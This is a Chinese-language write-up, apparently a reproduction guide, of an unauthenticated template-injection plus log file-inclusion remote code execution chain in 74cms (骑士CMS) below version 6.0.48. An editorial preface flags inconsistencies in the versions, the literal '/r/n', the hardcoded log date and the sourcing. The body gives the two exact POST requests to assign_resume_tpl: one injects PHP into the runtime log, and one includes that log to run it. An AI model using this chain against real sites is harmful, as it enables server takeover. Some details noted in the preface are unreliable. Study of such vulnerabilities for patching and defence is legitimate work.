




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：body &lt;6.0.48; test6.0.20/PHP5; no login stated; predictable writable logs

- **事实待核（1）**：Title6.0.48 implies vulnerable version while body excludes it。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：Payload literal /r/n should be distinguished from intended line ending。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Hardcoded 20_12_12.log inconsistent with displayed December14 test context; date must be variable。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：Claim GET fails simply because URL encoding is insufficient explanation; verify server handling。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（5）**：No original source。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 74cms v6.0.48模版注入+文件包含getshell

## 0x01 简介


骑士cms人才系统，是一项基于PHP+MYSQL为核心开发的一套**免费 +** 开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。


## 0x02 漏洞概述


骑士 CMS 官方发布安全更新，修复了一处远程代码执行漏洞。由于骑士 CMS 某些函数存在过滤不严格，攻击者通过构造恶意请求，配合文件包含漏洞可在无需登录的情况下执行任意代码，控制服务器。

## 0x03 影响版本


骑士 CMS < 6.0.48


**0x04 环境搭建**


骑士cms不支持php7.0，所以建议使用php5

官网下载6.0.20版本



将源码放在web根目录下，访问/index.php进行安装


## 漏洞复现

1.发送如下请求：

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```



查看日志会发现已经记录了错误
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home



3.包含日志

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log
```

日志名称就是当天的年月日，直接包含即可



为什么不能使用get来请求，因为url在提交给后台处理会被进行url编码，从而造成包含不成功，因此要采取post方式发送payload


